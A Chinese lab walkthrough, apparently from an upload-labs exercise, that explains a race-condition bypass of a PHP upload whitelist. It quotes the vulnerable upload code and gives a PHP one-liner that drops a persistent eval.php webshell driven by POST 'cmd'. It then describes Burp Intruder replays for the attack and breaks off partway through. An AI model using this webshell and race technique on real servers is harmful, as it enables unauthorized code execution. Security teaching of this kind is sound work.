 ```
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}


```

从源码来看，服务器先是将上传的文件保存下来，然后将文件的后缀名同白名单对比，如果是jpg、png、gif中的一种，就将文件进行重命名。如果不符合的话，unlink()函数就会删除该文件。

这么看来如果我们还是上传一个图片马的话，网站依旧存在文件包含漏洞我们还是可以进行利用。但是如果没有文件包含漏洞的话，我们就只能上传一个php木马来解析运行了。

那还怎么搞？上传上去就被删除了，我还怎么去访问啊。

不慌不慌，要知道代码执行的过程是需要耗费时间的。如果我们能在上传的一句话被删除之前访问不就成了。这个也就叫做条件竞争上传绕过。

我们可以利用burp多线程发包，然后不断在浏览器访问我们的webshell，会有一瞬间的访问成功。

#### 准备工作：

为了更好的演示效果，把eval1.php一句话木马换一下改为：

```php
<?php @eval(fwrite(fopen('eval.php','w'),'<?php @eval($_POST["cmd"]); ?>')); ?>
```

把这个php文件通过burp一直不停的重放，然后再写python脚本去不停的访问我们上传的这个文件，总会有那么一瞬间是还没来得及删除就可以被访问到的，一旦访问到该文件就会在当前目录下生成一个eval.php的一句话。在正常的渗透测试中这也是个好办法。因为单纯的去访问带有phpinfo()的文件并没有什么效果。一旦删除了还是无法利用。但是这个办法生成的eval.php服务器是不会删除的，我们就可以通过蚁剑去链接了。
首先，我们上传PHP文件，用BP拦截

发送到intruder模块，选择`clear$`

然后设置空payload

![image-20230924124152000](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230924124152000.png)

